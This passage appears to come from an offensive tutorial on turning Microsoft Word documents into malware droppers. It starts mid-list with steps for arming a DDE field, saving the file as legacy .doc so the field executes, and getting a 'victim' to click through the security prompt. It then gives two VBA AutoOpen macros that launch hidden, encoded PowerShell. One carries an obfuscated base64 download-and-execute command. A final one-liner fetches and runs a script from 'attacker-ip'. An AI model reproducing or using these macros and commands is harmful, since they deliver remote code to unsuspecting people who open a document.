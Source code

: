 4. **Activate the Field**
- Click inside the field.
- Press **`F9`** to update the field — this "activates" the DDE field.

5. **Save the File**

- Save the file as **Word 97-2003 Document (`.doc`)**, not `.docx`.
- `.docx` blocks DDE execution by design.
- Use: `File > Save As > Word 97-2003 Document (*.doc)`

6. **Execution**
when the victim opens the document a **security prompt** will pop up :

> "This document contains links that may refer to other files..."

victim should Click **Yes** to trigger execution.


---
## Payload/Code Snippets

-  **VBA Macro 1**
```vb
Sub AutoOpen()
Dim x As Object
Set x = CreateObject("Wscript.Shell")
x.Run "powershell -nop -w hidden -enc <BASE64_PAYLOAD>"
End Sub
```

- **VBA Macro 2**
```vb
Sub AutoOpen()
    juice = "SQBFAFgAKABOAGUAdwAt" & _
    "AE8AYgBqAGUAYwB0ACAA" & _
    "UwB5AHMAdABlAG0ALgBO" & _
    "AGUAdAAuAFcAZQBiAEMA" & _
    "bABpAGUAbgB0ACkALgBE" & _
    "AG8AdwBuAGwAbwBhAGQA" & _
    "UwB0AHIAaQBuAGcAKAAn" & _
    "AGgAdAB0AHAAOgAvAC8A" & _
    "MQAyADcALgAwAC4AMAAu" & _
    "ADEAOgA4ADAAMAAwAC8A" & _
    "cABhAHkAbABvAGEAZAAu" & _
    "AHAAcwAxACcAKQA="
    wheel = "powershell.exe -E """ & juice & """"
    Set agent = CreateObject("WScript.Shell")
    
    agent.Run wheel, 0, False
    
End Sub
```

- **PowerShell Payload Example**
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://attacker-ip/payload.ps1')
```
